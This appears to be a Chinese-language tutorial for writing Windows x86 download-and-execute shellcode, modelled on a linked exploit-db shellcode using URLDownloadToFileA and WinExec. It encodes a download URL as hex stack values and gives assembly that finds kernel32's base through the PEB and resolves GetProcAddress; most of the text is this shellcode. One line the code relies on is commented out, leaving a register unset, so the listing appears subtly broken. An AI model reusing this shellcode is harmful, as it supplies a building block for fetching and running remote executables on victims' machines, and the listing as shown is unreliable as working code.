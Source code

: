 * [Windows/x86 - URLDownloadToFileA(http://192.168.86.130/sample.exe) + SetFileAttributesA(pyld.exe) + WinExec() + ExitProcess() Shellcode (394 bytes)](https://www.exploit-db.com/shellcodes/40094)
0. 将自己的下载网址`https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe`转化为十六进制
```c
0x6578652e  // exe.
0x30323032  // 0202
0x51514350  // QQCP
0x2f455845  // /EXE
0x5f515143  // _QQC
0x502f5151  // P/QQ
0x43502f62  // CP/b
0x65777171  // ewqq
0x2f6d6f63  // /moc
0x2e71712e  // .qq.
0x6e776f64  // nwod
0x2f2f3a73  // //:s
0x70747468  // ptth
```
1. 找到kernel32的基地址
```
xor ecx,ecx
mov eax,[fs:ecx+0x30] ;Eax=PEB
mov eax,[eax+0xc] ;eax=PEB.Ldr
mov esi,[eax+0x14] ;esi=PEB.Ldr->InMemOrderModuleList
lodsd 
xchg esi,eax
lodsd
mov ecx,[eax+0x10] ;ecx=kernel32.dll base address

;mov ebx,[ecx+0x3c] ;kernel32.dll +0x3c=DOS->e_flanew
add ebx,ecx ;ebx=PE HEADER
mov ebx,[ebx+0x78];Data_DIRECTORY->VirtualAddress
add ebx,ecx ;IMAGE_EXPORT_DIRECTORY

mov esi,[ebx+0x20] ;AddressOfNames
add esi,ecx
```
2. 找到GetProcAddress
```
or edx,edx

count:
inc edx
lodsd
add eax,ecx
cmp dword [eax],'GetP'
jnz count
cmp dword [eax+4],'rocA'
jnz count
cmp dword [eax+8],'ddre'
jnz count

;---------------------------------------------

mov esi,[ebx+0x1c] ;AddressOfFunctions
add esi,ecx

mov edx,[esi+edx*4]
add edx,ecx ;edx=GetProcAddress()

;-----------------------------------------

xor esi,esi
mov esi,edx ;GetProcAddress()
mov edi,ecx ;kernel32.dll
```